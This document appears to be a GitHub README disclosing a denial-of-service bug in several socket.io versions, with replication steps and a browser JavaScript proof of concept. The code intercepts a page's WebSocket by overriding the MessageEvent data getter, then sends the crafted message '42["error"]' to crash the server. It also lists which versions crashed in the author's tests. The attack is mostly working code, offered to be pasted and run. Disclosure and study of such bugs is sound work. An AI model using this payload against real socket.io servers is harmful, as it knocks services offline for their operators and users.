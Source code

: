 # Socket.IO CVE
A carefully crafted message sent from a connected client can throw an error on the server, causing denial of service in several versions of socket.io

## Replication
- In the code below, the attack will commence as soon as soon as the [WebSocket](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket) instance is intercepted
- One can run this repository, open the url it would be hosted in a browser and paste the code in to execute the attack
- You can wait for a probe from the server(this takes a little while) **or** initiate some interaction just to access the websocket to send the maliciously crafted text
- This works up to `4.6.1` and it works because of unfortunately handled events from this library
- Exact versions tested were: `3.1.2`, `4.3.2`, `4.6.2`(this one didn't crash), `4.6.0`, `4.7.5`(this one didn't crash), `4.6.1`

```js
function listen(fn){ //this function from my answer in https://stackoverflow.com/a/70267397/10697213
  fn = fn || console.log;

  let property = Object.getOwnPropertyDescriptor(MessageEvent.prototype, "data");
  
  const data = property.get;

  // wrapper that replaces getter
  function lookAtMessage() {

    let socket = this.currentTarget instanceof WebSocket;

    if (!socket) {
      return data.call(this);
    }

    let msg = data.call(this);

    Object.defineProperty(this, "data", { value: msg } ); //anti-loop
    fn({ data: msg, socket:this.currentTarget, event:this });
    return msg;
  }
  
  property.get = lookAtMessage;
  
  Object.defineProperty(MessageEvent.prototype, "data", property);
}

listen( ({data,socket}) => {
  console.log(data)
  window.server=socket
  //2 lines above contain pointless logging
  server.send('42["error"]') //THIS IS THE CRITICAL LINE
  //server.send('42["error","you can have any JSON serialisable data here(2nd entry in array) and it will show in the error context >:D"]')
})
```

![server crash example](example.png)